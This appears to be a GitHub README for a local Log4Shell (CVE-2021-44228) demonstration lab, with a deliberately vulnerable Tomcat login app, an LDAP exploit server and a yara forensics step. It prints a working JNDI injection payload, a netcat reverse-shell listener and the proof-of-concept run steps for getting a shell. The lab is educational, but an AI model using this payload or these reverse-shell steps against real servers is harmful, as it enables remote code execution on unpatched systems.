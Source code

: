 # log4shell-example

This pieces together a few things across github/internet and makes understanding why the log4shell is so dangerous.

Built/tested rootless containers with `podman and docker` using `x86_64` images.

1) An example tomcat java application that uses log4j and has a login screen to illustrate how easy it is to input exploitable ldap references
2) An LDAP server that will serve the exploit class byte code
   1) The LDAP server is redirected to a basic web server that serves the exploit byte code.  This is written in python that makes system calls out to java to build the exploit java class and produce the java class bytecode.  
   2) It also calls out to java sto start an [LDAP marshaler (serializer)](https://github.com/mbechler/marshalsec)
3) An example of how to create a reverse shell with [netcat (nc)](https://en.wikipedia.org/wiki/Netcat)
4) This uses an exploitable version of java openjdk, u172 `openjdk8:x86_64-ubuntu-jdk8u172` off of docker hub, that has the default of `com.sun.jndi.ldap.object.trustURLCodebase=true`, where java 8 u191 forward has `com.sun.jndi.ldap.object.trustURLCodebase=false`
5) Then we will illustrate how to use some forensics to scrape memory for sensitive information using `yara`

An important thing to note here is that while this demo is running locally, the LDAP server supplying the exploit can be hosted anywhere.



* Start a netcat listener to accept reverse shell connection.<br>
```py
nc -lvnp 9001
```
* Launch the exploit.<br>

```py
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

<br>


Our vulnerable application
--------------------------

We have added a Dockerfile with the vulnerable webapp. You can use this by following the steps below:
```c
1: docker build -t log4j-shell-poc .
2: docker run --network host log4j-shell-poc
```
Once it is running, you can access it on [localhost:8080]()


Now copy the `${jndi:ldap://localhost:1389/a}` and put it into the username field of the tomcat server at port `8080`

You will not be prompted in knowing that the tomcat application has in-fact connected to your netcat running at `9001`  Try typing simple commands like `ls` and see what you get.




